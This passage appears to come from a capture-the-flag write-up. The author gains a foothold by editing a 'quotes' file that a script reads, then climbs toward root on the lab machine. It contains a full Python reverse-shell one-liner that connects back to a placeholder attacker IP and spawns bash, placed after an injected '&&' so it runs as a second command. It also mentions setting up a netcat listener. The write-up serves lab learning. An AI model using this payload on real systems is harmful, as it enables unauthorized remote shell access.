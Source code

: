 Since the `spread_the_quotes.py` actually calls `quotes` we may be able to use this to craft our reverse shell.  
I used `vim` to open up the quotes file and then used the keybindings of `%d` to remove all content.  
Once you have added your reverse shell you will just need to sit up your netcat listern on your local computer and wait for the call to be made.  

Reverse Shell:
```
"hello" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<Your IP Address>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

**SUCCESS!!!**  

![listener](images/listener.png "listener")  
How about we see what kind of files there are and what is in them.  
There is a file called `Super_Duper_Checklist` and when we open it and look at the very last line it seems that we are presented what looks to be our user flag.  
![userFlag](images/userFlag.png "userFlag")  
<br>

## Getting Root
---
Now that we have found out user flage we will need to figure out how we we can escalate the privilege ouf the cage user to a root user.  
After looking aroud some I was able to find three emails where a conversation had taken place between Sean, Cage, & Weston.  

- email_1
    ```bash
    From - SeanArcher@BigManAgents.com
    To - Cage@nationaltreasure.com
    
    Hey Cage!
    
